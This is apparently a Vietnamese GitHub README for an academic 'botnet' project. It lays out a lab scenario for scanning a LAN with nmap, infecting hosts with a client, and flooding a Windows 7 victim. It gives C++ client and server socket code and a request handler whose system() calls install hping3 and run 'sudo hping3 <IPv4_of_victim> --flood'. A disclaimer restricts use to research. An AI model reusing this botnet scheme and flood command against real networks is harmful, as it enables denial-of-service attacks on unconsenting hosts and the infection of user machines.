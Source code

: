 # Dự án xây dựng botnet dựa trên giao thức TCP/IP
- Mục tiêu của dự án là lây nhiễm botnet Client trên nhiều host (thiết bị người dùng đầu cuối) sử dụng IPv4 (AF_INET).
- Sử dụng giao thức TCP/IP, biên dịch và thực hiện trên hệ điều hành ubuntu (hoặc core linux).
- **CẢNH BÁO:** Đây chỉ là dự án mang tính chất học thuật, nghiên cứu và đưa ra hướng giải quyết và khắc phục botnet trong hệ thống mạng. Tuyệt đối không áp dụng lên hệ thống mạng nếu không được đồng ý hoặc chấp nhận. *Hành vi tấn công mạng được xem là vi phạm pháp luật*.

## Cấu hình - Kịch bản tấn công

**Cấu hình thiết bị**
|STT|Thiết bị - Hệ điều hành|Địa chỉ IPv4|
|:-|:-|:-|
|1|Attacker - Ubuntu|VMnet0 (192.168.1.0/24)|
|2|Botnet - Ubuntu|VMnet2 (192.168.0.0/24)|
|3|Victim - Windows 7|VMnet2 (192.168.0.0/24)|

**Kịch bản tấn công:**
+ Attacker sẽ tiến hành tham dò mạng nội bộ (nmap) để xác định các host có khả năng lây nhiễm botnet.
+ Sau đó, attacker sẽ lây nhiễm botnet cho các máy trong mạng LAN (user, server tải file trên mạng có chứa botnet Client). 
+ Lúc này, attacker sẽ điều khiển các client để tập trung vào tấn công flood đến host nạn nhân.
+ ***Kết quả:*** Làm cho các dịch vụ trên host bị tấn công trì trệ, không thể hoạt động.


## Botnet Client (botnetClient.cpp)

**Thiết lập địa chỉ server**

```
sockaddr_in serverAddr;
serverAddr.sin_family = AF_INET;
serverAddr.sin_port = htons(45444);
inet_pton(AF_INET, "127.0.0.1", &serverAddr.sin_addr);
```

|Thuộc tính|Giải thích|
|:-|:-|
|`sockaddr_in`|Lưu trữ thông tin server|
|`sin_family`|Chỉ định loại địa chỉ|
|`sin_port`|Cổng kết nối Client - Server|
|`htons()`|Hàm băm dạng địa chỉ mạng|
|`inet_pton`|Chuyển đổi chuỗi địa chỉ mạng sang dạng nhị phân|

**Kết nối tới Server**

```
if (connect(clientSocket, (struct sockaddr*)&serverAddr, sizeof(serverAddr)) < 0)
{
    cerr << "Connection failed!" << endl;
    return -1;
}
```
|Thuộc tính|Giải thích|
|:-|:-|
|`connect()`|Kết nối đến socket của client với địa chỉ của server|

**Gửi dữ liệu đến Server**
```
string request = "terminal";
send(clientSocket, request.c_str(), request.size(), 0);
```
Gửi dữ liệu đến Server, khi kết nối thành công, client sẽ mở Terminal.

## Botnet Server (botnetServer.cpp)

```
serverAddr.sin_port = htons(PORT);
serverAddr.sin_addr.s_addr = INADDR_ANY;
```
Số cổng của Server kết nối đến Client `htons(PORT)`.
Thuộc tính `INADDR_ANY` chấp nhận kết nối từ bất kỳ địa chỉ IP nào.

**Gán địa chỉ cho socket**
```
if (bind(serverSocket, (struct sockaddr*)&serverAddr, sizeof(serverAddr)) < 0)
{
    cerr << "Bind failed!" << endl;
    return -1;
}
```
Gán địa chỉ IP và cổng vừa thiết lập cho socket.

**Lắng nghe kết nối**
```
listen(serverSocket, 10);
``` 
Cho phép tối đa 10 kết nối trong hàng đợi.

**Nhận dữ liệu từ client**
```
int bytesReceived = recv(clientSocket, buffer, 4096, 0);
```
Hàm `recv()` đọc dữ liệu từ client gửi đến và lưu vào `buffer`.

## Xử lý yêu cầu từ Client - Thực hiện quá trình 
```
if (request == "terminal") 
{
    cout << "Opening terminal..." << endl;
    system("gnome-terminal");
    system("sudo apt install hping3");
    system("y");
    system("sudo hping3 <IPv4_of_victim> --flood");
}
```
Nếu Server nhận được phản hồi từ Client gửi đến đáp ứng điều kiện yêu cầu "request". Server tiến hành mở Terminal, Cài đặt [HPING3](https://www.kali.org/tools/hping3/) để tiến hành ping flood.

## Biên dịch (Compile)
Cài đặt trình biên dịch để sử dụng thư viện:
`sudo apt install g++`

**Server:** `g++ botnetServer.cpp -o botnetServer`

**Client:** `g++ botnetClient.cpp -o botnetClient`

## Khởi chạy (Run)

**Server:** `./botnetServer`

**Client:** `./botnetClient`

## Kiểm thử kịch bản, chương trình tấn công botnet

**Host trước khi bị tấn công**

![](img/1.png)

**Host trong quá trình bị tấn công**

![](img/2.png)